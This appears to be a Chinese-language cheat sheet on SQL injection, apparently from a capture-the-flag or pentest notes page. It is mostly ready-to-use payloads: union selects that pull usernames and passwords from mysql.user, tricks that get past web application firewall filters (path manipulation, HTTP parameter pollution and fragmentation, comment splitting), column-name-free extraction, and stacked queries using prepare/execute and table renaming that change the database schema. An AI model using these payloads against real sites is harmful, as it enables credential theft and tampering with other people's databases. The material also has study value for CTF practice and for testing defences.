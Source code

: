 ```
GET /pen/news.php?id=1 union select user,password from mysql.user
绕过
GET /pen/news. php/admin?id=1 union select user,password from mysql. user
GET /pen/admin/..\news. php?id=1 union select user,password from mysql. user
# http参数控制
# HPP（HTTP Parmeter Polution）（重复参数污染）
index.php?id=1 union select username,password from users
index.php?id=1/**/union/*&id=*/select/*&id=*/username.password/*&id=*/from/*&id=*/users    
# HPP又称作重复参数污染，最简单的是?uid=1&uid=2&uid=3，对于这种情况，不用的web服务器处理方式不同。
# 具体WAF如何处理，要看设置的规则，不过示例中最后一个有较大可能绕过
# HPF（HTTP Parmeter Fragment）（HTTP分割注入）
# HTTP分割注入，同CRLF有相似之处（使用控制字符%0a、%0d等执行换行）
/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—
```
#### 奇淫技巧
##### 在不知道列名的情况下注入
在版本号小于5的MYSQL，甚至在版本号大于等于5的MYSQL中，WAF将information_schema的任何调用都列进了黑名单，对于数据库表只能猜测。（或许有其他方法）  

```
通过以下语句可以将列名转换
select 1,2,3,4,5,6 union select * from users;
查询数据,其中a是表的别名,每一个派生出来的表都必须有一个自己的别名
select `1` from (select 1,2,3,4,5,6 union select * from users)a
最终payload
-1 union select null,(select concat(`3`,0x3a,`4`),null from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
```
##### 预编译sql语句绕过过滤
set用于设置变量名和值  
prepare用于预备一个语句，并赋予名称，以后可以引用该语句  
execute执行语句  
deallocate prepare用来释放掉预处理的语句  

```
-1';set @sql = CONCAT('se','lect * from `1919810931114514`;');prepare stmt from @sql;EXECUTE stmt;#

拆分开来如下
-1';
set @sql = CONCAT('se','lect * from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;
#
```
##### 修改表名达到带出数据目的
如原始sql查询：select id，name from t1 where id=1；  
当其存在注入时，可以修改表名，和字段名，已达到用原始语句查询目标表数据的目的。

```
修改表名(将表名user改为users)
alter table user rename to users;

修改列名(将字段名username改为name)
alter table users change uesrname name varchar(30);

1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

拆分开来如下
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);
随后使用1' or 1=1#即可查询想要数据
```